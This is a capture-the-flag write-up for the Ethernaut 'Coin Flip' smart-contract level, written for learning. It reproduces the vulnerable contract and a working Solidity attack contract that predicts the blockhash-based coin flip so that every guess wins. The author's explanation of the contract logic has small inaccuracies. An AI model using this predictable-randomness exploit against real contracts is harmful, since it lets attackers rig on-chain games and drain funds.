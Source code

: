 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel3.svg">

# Target Contract Review

Given conract.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0; 
      return false;
    }
  }
}
```

Challenge's message.
>This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

We have contract which can increase consecutiveWins with be flying blind. To be more precise, in the **_flip()_** function set a variable call **blockValue** help with keeping the hash of the previous block number as uint256. If lasthash doesn't equal to blockValue, lasthash will be blockValue's value. Afterwards, if blockValue equal to FACTOR which is defined in the start, side variable will be true. Other senarious, side variable will be false. Lastly, if our guess is same with side, consecutiveWins **will be increased**.

## Global Variables in Solidity

In solidity, there are some variables which can call from everyone. **_block.number_** is one of them. In this case, we can access to current block number of chain. Thus, we make always **correct guess**. More about [Global Variables](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html#special-variables-and-functions).

# Subverting

My attack contract.
```solidity
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract Attack{

    CoinFlip coinflip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _target){
        coinflip = CoinFlip(_target);
    }

    function flip() external{
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint flip = blockValue/FACTOR;
        bool choice  = flip == 1 ? true : false;
        coinflip.flip(choice);
    }

    function showWins() external view returns(uint){
        return coinflip.consecutiveWins();
    }
}
```
Firstly, get our target contract address. Then set blockValue and choice as in target contract. And then send our guess to flip() function in the target contract.

```js
await contract.address
'0x24Aa95c4f7bf90BAa33ec67698f5ADc64B0DB551'
```
Deploy an attack contract.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Coin%20Flip/img/deploy.png">

And then, call **flip()** function ten times. After tthat, we will passed this challenge.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Coin%20Flip/img/start.png">

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Coin%20Flip/img/finished.png">

Ethernaut's message:

>Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.
To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.
Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).

**_by wasny0ps_**
